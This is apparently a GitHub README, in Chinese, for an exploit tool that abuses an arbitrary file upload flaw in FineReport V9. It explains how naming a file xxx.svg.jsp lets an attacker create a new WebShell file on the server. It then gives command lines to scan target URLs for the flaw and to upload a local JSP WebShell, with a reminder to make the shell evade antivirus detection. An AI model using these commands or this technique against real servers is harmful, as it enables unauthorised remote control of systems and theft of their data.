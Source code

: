 # 帆软（FineReport) V9任意文件上传

本质上是 "任意文件覆盖漏洞", 但可以通过上传文件名为 xxx.svg.jsp 的 WebShell 来实现不覆盖原有文件, 直接创建 xxx.svg.jsp 文件并写入 WebShell.

## 使用方法

```
usage: upload.py [-h] (-u url | -f file) [-lf local_file] [-o output_file]

optional arguments:
  -h, --help      show this help message and exit
  -u url          目标 URL, 如: http://test.com
  -f file         目标 URL 文件
  -lf local_file  需要上传到目标服务器的本地文件, 如: shell.jsp
  -o output_file  保存结果到文本文件

```

### 检测 URL 是否存在漏洞

```
python3 exp.py -u http://oa.test.com:11000
```

![检测 URL 是否存在漏洞](https://github.com/TryA9ain/FineReportV9_Upload/blob/main/images/Pasted%20image%2020230315205243.png)

### 上传 WebShell

>注意 WebShell 免杀的问题

```
python3 exp.py -u http://oa.test.com:11000/ -lf 3.jsp
```

![上传 WebShell](https://github.com/TryA9ain/FineReportV9_Upload/blob/main/images/Pasted%20image%2020230315205546.png)
